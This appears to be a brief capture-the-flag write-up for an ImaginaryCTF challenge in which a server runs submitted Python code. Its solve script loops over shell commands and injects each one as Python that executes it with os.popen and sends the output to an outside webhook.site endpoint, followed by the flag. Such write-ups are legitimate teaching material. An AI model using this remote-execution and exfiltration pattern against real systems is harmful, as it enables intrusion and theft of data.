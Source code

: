 ```yaml
---
created: 2024-07-19T16:06
updated: 2024-07-21T18:39
points: 100
solves: 247
---
```


We are sending code to the server... and the server is running it.

Easiest ever RCE?

## solve script

```python
import requests

while True:
    payload=f"""
from urllib.request import urlopen, Request
import os
httprequest = Request('	https://webhook.site/',data=os.popen('{input("$ ").strip()}').read().encode(),method='POST')
urlopen(httprequest)""".strip()
    requests.post("http://p2c.chal.imaginaryctf.org/", data={"code": payload})
    
# $ ls
# $ cat flag.txt
```

```flag
ictf{d1_color_picker_fr_2ce0dd3d}
```
